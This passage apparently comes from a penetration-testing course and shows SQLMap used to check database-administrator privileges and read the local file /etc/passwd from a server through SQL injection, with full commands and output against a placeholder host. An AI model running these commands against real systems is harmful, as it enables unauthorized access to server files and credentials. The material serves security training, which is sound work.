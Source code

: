 If we tried to read a file using SQLMap, we would get something like:
```bash
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

To test **OS exploitation**, let's try an exercise in which we do have **DBA** privileges, as seen in the questions at the end of this section:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --is-dba

[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```
We see that this time we get `current user is DBA: True`, meaning that we may have the privilege to read local files.
### Reading Local Files
Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the `--file-read` option:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/
```
